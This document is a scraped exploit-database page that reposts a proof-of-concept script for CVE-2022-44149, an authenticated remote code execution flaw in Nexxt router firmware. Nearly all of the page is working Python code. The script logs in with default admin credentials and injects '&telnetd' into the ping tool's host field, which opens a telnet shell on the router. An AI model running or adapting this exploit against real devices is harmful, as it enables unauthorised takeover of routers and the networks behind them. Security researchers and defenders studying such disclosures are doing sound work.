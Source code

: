 ```yaml
---
title: Nexxt Router Firmware 42.103.1.5095 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170366&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-05
fetch_date: 2025-10-04T03:03:02.548470
---
```


# Nexxt Router Firmware 42.103.1.5095 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Nexxt Router Firmware 42.103.1.5095 Remote Code Execution CVE-2022-44149

2023-01-04 | CVSS 9.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170366
# Exploit Title: Nexxt Router Firmware 42.103.1.5095 - Remote Code Execution (RCE) (Authenticated)
# Date: 19/10/2022
# Exploit Author: Yerodin Richards
# Vendor Homepage: https://www.nexxtsolutions.com/
# Version: 42.103.1.5095
# Tested on: ARN02304U8
# CVE : CVE-2022-44149

import requests
import base64

router_host = "http://192.168.1.1"
username = "admin"
password = "admin"

def main():
send_payload("&telnetd")
print("connect to router using: `telnet "+router_host.split("//")[1]+ "` using known credentials")
pass

def gen_header(u, p):
return base64.b64encode(f"{u}:{p}".encode("ascii")).decode("ascii")

def send_payload(payload):
url = router_host+"/goform/sysTools"
headers = {"Authorization": "Basic {}".format(gen_header(username, password))}
params = {"tool":"0", "pingCount":"4", "host": payload, "sumbit": "OK"}
requests.post(url, headers=headers, data=params)

if __name__ == '__main__':
main()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)